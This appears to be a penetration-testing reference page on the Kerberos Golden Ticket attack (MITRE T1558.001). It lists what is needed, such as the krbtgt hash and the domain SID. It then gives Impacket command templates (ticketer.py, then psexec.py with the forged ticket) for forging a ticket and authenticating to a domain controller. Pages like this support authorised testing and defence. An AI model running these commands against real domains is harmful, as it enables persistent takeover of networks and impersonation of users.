 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558.001
---
```


# Create Golden Ticket

### Description

A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Tickets. A golden ticket will allow you to persist in an environment almost indefinitely.

### Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller.
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller.
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain.

### Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket:

```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]
```

Export the ticket:

```bash
export KRB5CCNAME=[USER.CCACHE]
```

Authenticate with the created ticket to the domain controller:

```bash
psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]
```

### References

{% embed url="https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained" %}

{% embed url="https://yojimbosecurity.ninja/golden-ticket-with-impacket" %}
